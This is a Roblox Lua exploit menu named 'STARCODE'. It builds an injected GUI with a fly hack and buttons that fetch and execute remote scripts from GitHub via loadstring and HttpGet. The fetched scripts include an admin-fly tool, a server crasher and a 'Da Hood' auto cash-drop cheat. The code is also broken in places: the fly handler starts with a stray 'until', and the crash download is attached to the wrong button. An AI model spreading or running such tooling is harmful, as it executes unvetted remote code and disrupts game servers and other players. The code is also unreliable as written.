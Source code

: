 -- Gui to Lua
-- Version: 3.2

-- Instances:

local ScreenGui = Instance.new("ScreenGui")
local STARCODE = Instance.new("Frame")
local Label = Instance.new("TextLabel")
local Label_2 = Instance.new("TextLabel")
local Made = Instance.new("TextLabel")
local Label_3 = Instance.new("TextLabel")
local Label_4 = Instance.new("TextLabel")
local FLY = Instance.new("TextButton")
local ADMINFLY = Instance.new("TextButton")
local Crash = Instance.new("TextButton")
local Label_5 = Instance.new("TextLabel")
local Label_6 = Instance.new("TextLabel")
local AutoDrop = Instance.new("TextButton")
local TextLabel = Instance.new("TextLabel")

--Properties:

ScreenGui.Parent = game.CoreGui
ScreenGui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

STARCODE.Name = "STARCODE"
STARCODE.Parent = ScreenGui
STARCODE.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
STARCODE.BorderColor3 = Color3.fromRGB(53, 53, 53)
STARCODE.BorderSizePixel = 0
STARCODE.Position = UDim2.new(0.265433192, 0, 0.2370518, 0)
STARCODE.Size = UDim2.new(0, 769, 0, 333)
STARCODE.Active = true
STARCODE.Draggable = true

Label.Name = "Label"
Label.Parent = STARCODE
Label.BackgroundColor3 = Color3.fromRGB(255, 206, 206)
Label.BackgroundTransparency = 1.000
Label.BorderSizePixel = 0
Label.Position = UDim2.new(0.018205462, 0, 0.0630630627, 0)
Label.Size = UDim2.new(0, 175, 0, 50)
Label.Font = Enum.Font.SourceSans
Label.Text = "STARCODE"
Label.TextColor3 = Color3.fromRGB(255, 230, 84)
Label.TextScaled = true
Label.TextSize = 14.000
Label.TextWrapped = true

Label_2.Name = "Label"
Label_2.Parent = STARCODE
Label_2.BackgroundColor3 = Color3.fromRGB(0, 4, 255)
Label_2.Position = UDim2.new(0.018205462, 0, 0.195195198, 0)
Label_2.Size = UDim2.new(0, 187, 0, 6)
Label_2.Font = Enum.Font.SourceSans
Label_2.Text = ""
Label_2.TextColor3 = Color3.fromRGB(0, 0, 0)
Label_2.TextSize = 14.000

Made.Name = "Made"
Made.Parent = STARCODE
Made.BackgroundColor3 = Color3.fromRGB(0, 255, 21)
Made.BackgroundTransparency = 1.000
Made.BorderSizePixel = 0
Made.Position = UDim2.new(0.80624187, 0, 0.828828871, 0)
Made.Size = UDim2.new(0, 149, 0, 49)
Made.Font = Enum.Font.SourceSansSemibold
Made.Text = "Made by Deadlygio#7805"
Made.TextColor3 = Color3.fromRGB(255, 255, 255)
Made.TextScaled = true
Made.TextSize = 14.000
Made.TextStrokeColor3 = Color3.fromRGB(115, 255, 1)
Made.TextStrokeTransparency = -1.000
Made.TextWrapped = true

Label_3.Name = "Label"
Label_3.Parent = STARCODE
Label_3.BackgroundColor3 = Color3.fromRGB(4, 3, 2)
Label_3.BorderSizePixel = 0
Label_3.Position = UDim2.new(0.00910273101, 0, 0.270270288, 0)
Label_3.Size = UDim2.new(0, 200, 0, 43)
Label_3.Font = Enum.Font.Cartoon
Label_3.Text = "BODY"
Label_3.TextColor3 = Color3.fromRGB(255, 0, 0)
Label_3.TextScaled = true
Label_3.TextSize = 14.000
Label_3.TextStrokeColor3 = Color3.fromRGB(12, 32, 214)
Label_3.TextStrokeTransparency = 0.000
Label_3.TextWrapped = true

Label_4.Name = "Label"
Label_4.Parent = STARCODE
Label_4.BackgroundColor3 = Color3.fromRGB(255, 64, 0)
Label_4.BorderColor3 = Color3.fromRGB(97, 6, 92)
Label_4.BorderSizePixel = 0
Label_4.Position = UDim2.new(0.00910273101, 0, 0.3993994, 0)
Label_4.Size = UDim2.new(0, 200, 0, 8)
Label_4.Font = Enum.Font.SourceSans
Label_4.Text = ""
Label_4.TextColor3 = Color3.fromRGB(0, 0, 0)
Label_4.TextSize = 14.000

FLY.Name = "FLY"
FLY.Parent = STARCODE
FLY.BackgroundColor3 = Color3.fromRGB(7, 214, 255)
FLY.Position = UDim2.new(0.0174893495, 0, 0.505706906, 0)
FLY.Size = UDim2.new(0, 200, 0, 59)
FLY.Font = Enum.Font.Cartoon
FLY.Text = "FLY(F)"
FLY.TextColor3 = Color3.fromRGB(0, 0, 0)
FLY.TextScaled = true
FLY.TextSize = 14.000
FLY.TextWrapped = true
FLY.MouseButton1Down:connect(function()
	until game.Players.LocalPlayer and game.Players.LocalPlayer.Character and game.Players.LocalPlayer.Character:findFirstChild("Head") and game.Players.LocalPlayer.Character:findFirstChild("Humanoid") 
local mouse = game.Players.LocalPlayer:GetMouse() 
repeat wait() until mouse
local plr = game.Players.LocalPlayer 
local torso = plr.Character.Head 
local flying = false
local deb = true 
local ctrl = {f = 0, b = 0, l = 0, r = 0} 
local lastctrl = {f = 0, b = 0, l = 0, r = 0} 
local maxspeed = 400 
local speed = 5000 

function Fly() 
	local bg = Instance.new("BodyGyro", torso) 
	bg.P = 9e4 
	bg.maxTorque = Vector3.new(9e9, 9e9, 9e9) 
	bg.cframe = torso.CFrame 
	local bv = Instance.new("BodyVelocity", torso) 
	bv.velocity = Vector3.new(0,0.1,0) 
	bv.maxForce = Vector3.new(9e9, 9e9, 9e9) 
	repeat wait() 
		plr.Character.Humanoid.PlatformStand = true 
		if ctrl.l + ctrl.r ~= 0 or ctrl.f + ctrl.b ~= 0 then 
			speed = speed+.10+(speed/maxspeed) 
			if speed > maxspeed then 
				speed = maxspeed 
			end 
		elseif not (ctrl.l + ctrl.r ~= 0 or ctrl.f + ctrl.b ~= 0) and speed ~= 0 then 
			speed = speed-1 
			if speed < 0 then 
				speed = 0 
			end 
		end 
		if (ctrl.l + ctrl.r) ~= 0 or (ctrl.f + ctrl.b) ~= 0 then 
			bv.velocity = ((game.Workspace.CurrentCamera.CoordinateFrame.lookVector * (ctrl.f+ctrl.b)) + ((game.Workspace.CurrentCamera.CoordinateFrame * CFrame.new(ctrl.l+ctrl.r,(ctrl.f+ctrl.b)*.2,0).p) - game.Workspace.CurrentCamera.CoordinateFrame.p))*speed 
			lastctrl = {f = ctrl.f, b = ctrl.b, l = ctrl.l, r = ctrl.r} 
		elseif (ctrl.l + ctrl.r) == 0 and (ctrl.f + ctrl.b) == 0 and speed ~= 0 then 
			bv.velocity = ((game.Workspace.CurrentCamera.CoordinateFrame.lookVector * (lastctrl.f+lastctrl.b)) + ((game.Workspace.CurrentCamera.CoordinateFrame * CFrame.new(lastctrl.l+lastctrl.r,(lastctrl.f+lastctrl.b)*.2,0).p) - game.Workspace.CurrentCamera.CoordinateFrame.p))*speed 
		else 
			bv.velocity = Vector3.new(0,0.1,0) 
		end 
		bg.cframe = game.Workspace.CurrentCamera.CoordinateFrame * CFrame.Angles(-math.rad((ctrl.f+ctrl.b)*50*speed/maxspeed),0,0) 
	until not flying 
	ctrl = {f = 0, b = 0, l = 0, r = 0} 
	lastctrl = {f = 0, b = 0, l = 0, r = 0} 
	speed = 0 
	bg:Destroy() 
	bv:Destroy() 
	plr.Character.Humanoid.PlatformStand = false 
end 
mouse.KeyDown:connect(function(key) 
	if key:lower() == "f" then 
		if flying then flying = false 
		else 
			flying = true 
			Fly() 
		end 
	elseif key:lower() == "w" then 
		ctrl.f = 1 
	elseif key:lower() == "s" then 
		ctrl.b = -1 
	elseif key:lower() == "a" then 
		ctrl.l = -1 
	elseif key:lower() == "d" then 
		ctrl.r = 1 
	end 
end) 
mouse.KeyUp:connect(function(key) 
	if key:lower() == "w" then 
		ctrl.f = 0 
	elseif key:lower() == "s" then 
		ctrl.b = 0 
	elseif key:lower() == "a" then 
		ctrl.l = 0 
	elseif key:lower() == "d" then 
		ctrl.r = 0 
	end 
end)
Fly()
end)

ADMINFLY.Name = "ADMIN FLY"
ADMINFLY.Parent = STARCODE
ADMINFLY.BackgroundColor3 = Color3.fromRGB(7, 214, 255)
ADMINFLY.Position = UDim2.new(0.0174893495, 0, 0.751953125, 0)
ADMINFLY.Size = UDim2.new(0, 200, 0, 59)
ADMINFLY.Font = Enum.Font.Cartoon
ADMINFLY.Text = "ADMIN FLY(X)"
ADMINFLY.TextColor3 = Color3.fromRGB(0, 0, 0)
ADMINFLY.TextScaled = true
ADMINFLY.TextSize = 14.000
ADMINFLY.TextWrapped = true
ADMINFLY.MouseButton1Down:connect(function()
	loadstring(game:HttpGet("https://raw.githubusercontent.com/22kristina/swag/main/admin_fly"))()
end)

Crash.Name = "Crash"
Crash.Parent = STARCODE
Crash.BackgroundColor3 = Color3.fromRGB(255, 0, 38)
Crash.Position = UDim2.new(0.29908973, 0, 0.505706906, 0)
Crash.Size = UDim2.new(0, 200, 0, 64)
Crash.Font = Enum.Font.Cartoon
Crash.Text = "Crash Server 100k needed(SwagMode)"
Crash.TextColor3 = Color3.fromRGB(255, 255, 255)
Crash.TextScaled = true
Crash.TextSize = 14.000
Crash.TextStrokeColor3 = Color3.fromRGB(255, 255, 255)
Crash.TextWrapped = true
ADMINFLY.MouseButton1Down:connect(function()
	loadstring(game:HttpGet('https://raw.githubusercontent.com/lerkermer/lua-projects/master/SuperCustomServerCrasher'))()
end)

Label_5.Name = "Label"
Label_5.Parent = STARCODE
Label_5.BackgroundColor3 = Color3.fromRGB(21, 0, 255)
Label_5.BackgroundTransparency = 1.000
Label_5.Position = UDim2.new(0.29908973, 0, 0.291291296, 0)
Label_5.Size = UDim2.new(0, 200, 0, 50)
Label_5.Font = Enum.Font.SourceSans
Label_5.Text = "SELLING TOOLS"
Label_5.TextColor3 = Color3.fromRGB(0, 255, 238)
Label_5.TextScaled = true
Label_5.TextSize = 14.000
Label_5.TextWrapped = true

Label_6.Name = "Label"
Label_6.Parent = STARCODE
Label_6.BackgroundColor3 = Color3.fromRGB(0, 12, 255)
Label_6.BorderColor3 = Color3.fromRGB(97, 6, 92)
Label_6.BorderSizePixel = 0
Label_6.Position = UDim2.new(0.29908973, 0, 0.3993994, 0)
Label_6.Size = UDim2.new(0, 200, 0, 8)
Label_6.Font = Enum.Font.SourceSans
Label_6.Text = ""
Label_6.TextColor3 = Color3.fromRGB(0, 0, 0)
Label_6.TextSize = 14.000

AutoDrop.Name = "AutoDrop"
AutoDrop.Parent = STARCODE
AutoDrop.BackgroundColor3 = Color3.fromRGB(255, 0, 38)
AutoDrop.Position = UDim2.new(0.29908973, 0, 0.736938119, 0)
AutoDrop.Size = UDim2.new(0, 200, 0, 64)
AutoDrop.Font = Enum.Font.Cartoon
AutoDrop.Text = "Auto Drop(SwagMode)"
AutoDrop.TextColor3 = Color3.fromRGB(255, 255, 255)
AutoDrop.TextScaled = true
AutoDrop.TextSize = 14.000
AutoDrop.TextStrokeColor3 = Color3.fromRGB(255, 255, 255)
AutoDrop.TextWrapped = true
AutoDrop.MouseButton1Down:connect(function()
	loadstring(game:HttpGet(("https://raw.githubusercontent.com/Raycodex/Exploiting/main/Roblox/Da%20Hood%20Auto%20Cash%20Drop"), true))()
end)

TextLabel.Parent = STARCODE
TextLabel.BackgroundColor3 = Color3.fromRGB(255, 0, 0)
TextLabel.BorderSizePixel = 0
TextLabel.Position = UDim2.new(0.568270564, 0, 0.135135129, 0)
TextLabel.Size = UDim2.new(0, 332, 0, 167)
TextLabel.Font = Enum.Font.Cartoon
TextLabel.Text = "MORE SOON LOL"
TextLabel.TextColor3 = Color3.fromRGB(0, 0, 0)
TextLabel.TextScaled = true
TextLabel.TextSize = 14.000
TextLabel.TextWrapped = true

-- Scripts:

local function YDRKOR_fake_script() -- Label_2.LocalScript 
	local script = Instance.new('LocalScript', Label_2)

	
		function zigzag(X) return math.acos(math.cos(X*math.pi))/math.pi end
	
		counter = 0
	
		while wait(0.01) do
			script.Parent.BackgroundColor3 = Color3.fromHSV(zigzag(counter),1,1)
	
			counter = counter + 0.01
		end
end
coroutine.wrap(YDRKOR_fake_script)()
